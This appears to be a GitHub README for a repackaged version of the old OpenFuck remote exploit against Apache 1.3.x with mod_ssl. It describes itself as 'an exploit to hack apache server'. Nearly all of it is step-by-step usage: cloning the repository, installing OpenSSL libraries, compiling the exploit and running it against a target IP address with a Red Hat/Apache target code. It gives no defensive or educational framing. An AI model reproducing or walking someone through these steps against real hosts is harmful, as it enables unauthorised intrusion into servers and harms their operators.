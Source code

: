 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.

This is an exploit to hack apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download the below file
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
